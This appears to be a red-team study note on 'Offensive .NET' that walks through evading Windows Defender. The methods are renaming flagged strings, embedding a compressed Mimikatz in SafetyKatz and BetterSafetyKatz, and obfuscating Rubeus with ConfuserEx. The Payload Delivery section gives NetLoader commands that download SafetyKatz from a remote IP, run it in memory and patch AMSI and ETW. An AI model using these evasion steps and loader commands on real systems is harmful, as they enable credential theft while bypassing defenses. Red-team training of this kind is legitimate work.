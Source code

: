 # Offensive .NET

- [Offensive .NET](#offensive-net)
  - [Offensive .NET Introduction](#offensive-net-introduction)
  - [Tradecraft](#tradecraft)
  - [AV Bypass](#av-bypass)
  - [String Manipulation](#string-manipulation)
  - [Example: SafetyKatz.exe](#example-safetykatzexe)
  - [Example: BetterSafetyKatz](#example-bettersafetykatz)
  - [Example: Rubeus.exe Obfuscation](#example-rubeusexe-obfuscation)
  - [Payload Delivery](#payload-delivery)

---

## Offensive .NET Introduction

Currently, `.NET` lacks some of the security features implemeneted in `System.Management.Automation.dll`. Because of this, many Red teams have included `.NET` in their tradecraft. 

There are many open source Offensive .NET tools and we will use the ones that fit out attack methodology.

<br/>

## Tradecraft

When using `.NET` (or any other complied language), there are some challenges:

1. Detection by countermeasures like AV, EDR, etc.
2. Delivery of the payload (recall PS sweet download-execute cradles!)
3. Detection by logging like **Process Creation**, **Command-line logging**, etc.

We will try and address the AV detection and delivery of the payload.

<br/>

## AV Bypass

We will focus on tthe bypass of signature-based detection by Windows Defender. For that, we use techniques like:

1. Obfuscation
2. String Manipulation
3. ...

We can use **DefenderCheck** to identify code and strings from a binary that Wnidows Defender may flag. This helps us in deciding on modifying the source code and minimal obfuscation.

- https://github.com/matterpreter/DefenderCheck

<br/>

**Defender Check**

To check `SharpKatz.exe` for signatures using **Defender Check**:

```
DefenderCheck.exe <SharpKatz.exe_path>
```

![picture 14](images/3d3641c0f292274c42be3d4784579aae8ff5cff239e81db2799b00a37708fb8f.png)  

- As shown, it will be detected by Windows Defender

<br/>

## String Manipulation

1. Open the `.NET` project in Visual Studio
2. Press `CTRL + H`
3. Find and replace the string `Credentials` with `Credents` - you can use any other string as a replacement, but make sure that string is not present in the code
4. Select the scope as `Entire Solution`
5. Press `Replace All` button
6. Build and recheck the binary with **DefenderCheck**
7. Repeat above steps if there is still a detection

<br/>

## Example: SafetyKatz.exe

For **SafetyKatz.exe**, do the following steps:

Download the latest version of `Mimikatz` (https://github.com/gentilkiwi/mimikatz) and `Out-CompressedDll.ps1` (https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

<br/>

Run `Out-CompressedDll.ps1` on the Mimikatz binary and save the output to a file

```
Out-CompressedDll <path_Mimikatz.exe> > <outfile>.txt
```

<br/>

Copy the value of the variable `$EncodedCompressedFile` from the output file above and replace the value of `compressedMimikatzString` varaible in the `Constants.cs` file of **SafetyKatz**.

![picture 15](images/2bdf02c98eb602b12e62da48b1d5a62128be5b16a44a09f34e351c4c09ce2fa1.png)  


<br/>

Copy the byte size from the output file and replace it in `Program.cs` file on the line 111 and 116. Finally build and recheck the binary with **DefenderCheck**.

![picture 16](images/116c557e85f912d69876ce62feba463d738313c29eb6f2c1d6223dbe1426e88a.png)  

<br/>

## Example: BetterSafetyKatz

For **BetterSafetyKatz**, we used the following steps:

Download the latest release of **mimkatz_truck.zip** file. Then convert the file to base64:

![picture 17](images/29ea3a1a0aeb7c9964d5d2d5f275612d02ce8f12e6eed0d1b3bd4f9bde9d6256.png)  

<br/>

Modify `Program.cs`:

- Added a new variable that contains the base64 value of `mimikatz_truck.zip` file
- Comment the code that downloads or accepts the mimikatz file as an argument
- Convert the base64 string to bytes and pass it to `zipStream` variable

![picture 18](images/550d712fa979a322bba6e5d53c13f435e548f2fb2e8386c6288d5aae04179c06.png)  

<br/>

## Example: Rubeus.exe Obfuscation

For Rubeus.exe, we used **ConfuserEx** to obfuscate.

- https://github.com/mkaring/ConfuserEx

<br/>

![picture 19](images/0469503251315549ff3eb3855841acff579a42a28ce82d07483f23684652757f.png)  

<br/>

1. Launch ConfuserEx
2. In `Project` tab, select the **Base Directory0** where the binary file is located
3. In `Project` tab, select the binary file that we want to obfuscate
4. In `Settings` tab, add the rules
5. In `Settings` tab, edit the rule and select the preset as `Normal`
6. In `Protect` tab, click on the **protect** button

- We will find the new obfuscated binary in the `Confused` folder under the Base Directory.

<br/>

![picture 20](images/b502f0c635255b07192514b603a683ec27013cc751f9a8174e23636eccd7428b.png)  

<br/>

## Payload Delivery

We can use **NetLoader** to deliver our binary payloads.

- https://github.com/Flangvik/NetLoader

It can be used to load binary from filepath or URL and patch AMSI & ETW while executing:

```
C:\Users\Public\Loader.exe -Path http://192.168.100.64/SafetyKatz.exe
```

<br/>

We also have `AssemblyLoad.exe` that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL.

```
C:\Users\Public\AssemblyLoad.exe http://192.168.100.64/Loader.exe -Path http://192.168.100.64/SafetyKatz.exe
```

<br/>

---